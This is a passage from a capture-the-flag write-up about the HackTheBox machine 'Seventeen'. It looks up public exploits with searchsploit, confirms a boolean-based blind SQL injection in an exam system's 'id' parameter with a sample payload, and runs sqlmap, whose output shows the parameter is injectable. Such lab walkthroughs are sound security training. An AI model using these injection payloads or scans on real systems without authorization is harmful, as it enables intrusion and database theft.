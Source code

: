     
    oxdf@hacky$ searchsploit exam management system
    ------------------------------------------------- ---------------------------------
     Exploit Title                                   |  Path
    ------------------------------------------------- ---------------------------------
    Exam Hall Management System 1.0 - Unrestricted F | php/webapps/50103.php
    Exam Hall Management System 1.0 - Unrestricted F | php/webapps/50111.py
    Exam Reviewer Management System 1.0 - Remote Cod | php/webapps/50726.txt
    Exam Reviewer Management System 1.0 - ‘id’ S | php/webapps/50725.txt
    ------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    

When looking at these to see if either matches Seventeen, I’ll compare the URL
structure to the URLs from `feroxbuster` above. The first two point to
`/pages/save_user.php`. I couldn’t find any page like that on the server. The
second two target `/erms/classes/Users.php` and `/erms/?p=take_exam&id=1`.
Those look like URLs I’ve already seen (without the `/erms`).

50726 is a authenticated RCE. As I don’t have creds, I’ll forucs on the next
one.

50725 is a boolean-based blind SQL injection.

#### SQL Injection

The POC is:

    
    
    p=take_exam&id=1' AND 4755=4755 AND 'VHNu'='VHNu
    

Visiting the URL returns a page:

![image-20220503173823111](https://0xdfimages.gitlab.io/img/image-20220503173823111.png)

If I replace `4755=4755` with `4755=4756`:

![image-20220511100624195](https://0xdfimages.gitlab.io/img/image-20220511100624195.png)

This page actually has the following tacked on at the end of the HTML:

    
    
    <script> alert("Unkown Exam ID"); location.replace("./");</script>
    

Given the different behaviors based on if the condition in the middle is equal
or not, this is a boolean-based SQL injection.

#### sqlmap

I’ll give `sqlmap` the URL, as well as `--technique B` (for boolean-based) and
`-p id` to tell it which parameter to work on.

    
    
    oxdf@hacky$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch
    ...[snip]...
    [14:05:35] [INFO] testing connection to the target URL
    you have not declared cookie(s), while server wants to set its own ('PHPSESSID=844b4ad6133...45b2d7d69c'). Do you want to use those [Y/n] Y
    [14:05:35] [INFO] checking if the target is protected by some kind of WAF/IPS
    [14:05:36] [INFO] testing if the target URL content is stable
    [14:05:36] [INFO] target URL content is stable
    [14:05:36] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
    [14:05:36] [INFO] testing for SQL injection on GET parameter 'id'
    [14:05:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [14:05:38] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="This")
    [14:05:40] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 